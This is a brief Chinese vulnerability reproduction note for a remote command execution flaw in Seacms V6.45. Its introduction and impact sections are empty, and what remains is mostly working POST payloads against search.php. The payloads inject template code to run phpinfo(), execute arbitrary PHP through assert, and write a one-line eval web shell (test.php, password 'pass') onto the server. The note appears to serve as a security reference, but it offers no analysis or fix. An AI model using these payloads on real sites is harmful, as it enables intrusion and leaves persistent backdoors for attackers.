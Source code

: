 ```yaml
---
title: Seacms V6.45
id: zhfly3114
---
```


# Seacms V6.45 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

`http://0-sec.org/search.php?searchtype=5`

POST

```
searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if} 
```

```
searchtype=5&searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo(); 
```

> 一句话payload，文件test.php 密码pass:

path:

`http://0-sec.org/search.php`

```
}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("test.php","w"),'<?php eval($_POST["pass"]);?>') 
```